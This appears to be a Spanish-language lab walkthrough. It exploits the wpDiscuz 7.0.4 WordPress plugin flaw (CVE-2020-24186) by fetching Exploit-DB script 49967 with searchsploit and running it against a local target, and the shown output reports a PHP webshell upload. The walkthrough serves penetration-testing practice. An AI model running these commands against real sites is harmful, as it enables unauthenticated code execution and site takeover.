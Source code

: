 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Exploit1">Probando Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated) versión Python</h2>

Investigando la vulnerabilidad, me encontré con este blog de **INE Security**, en donde realizaron un laboratorio que explota esta vulnerabilidad:
* <a href="https://ine.com/blog/vulnerability-lab-wordpress-plugin-wpdiscuz-unauthenticated-rce?_x_tr_hist=true" target="_blank">INE Security - Vulnerability Lab: WordPress Plugin wpDiscuz Unauthenticated RCE</a>

Como ya tenemos el Exploit dentro de Kali, solamente vamos a copiarlo en nuestro directorio de trabajo.

Copiamos este Exploit con **searchsploit**:
```bash
searchsploit -m php/webapps/49967.py
  Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/49967
     Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
    Codes: CVE-2020-24186
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (864)
```
Si analizamos el Exploit, resulta que se aprovecha de una vulnerabilidad que permite subida de archivos gracias al **plugin wpDiscuz 7.0.4**, pero lo que sube es una webshell de **PHP**.

Una vez que se sube la webshell, permite la ejecución de comandos desde el Exploit.

Vamos a ejecutarlo para saber como usarlo:
```bash
python3 49967.py
[+] Specify an url target
[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost
[+] Example help usage: exploit.py -h
```
Bien, parece que tenemos que indicarle la URL que da al **WordPress** y un blog que se haya publicado. 

Ya tenemos ambos, así que vamos a indicárselo al Exploit y ejecutémoslo:
```bash
python3 49967.py -u http://192.168.1.60/wordpress -p /index.php/2024/04/01/hola-mundo/
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[92493] | code:[200]
[!] Got wmuSecurity value: 80451a84a9
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: qgrhpewgyyqgxfy

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://192.168.0.108/wordpress/wp-content/uploads/2025/01/qgrhpewgyyqgxfy-1738273086.5845.php&quot; 

>
```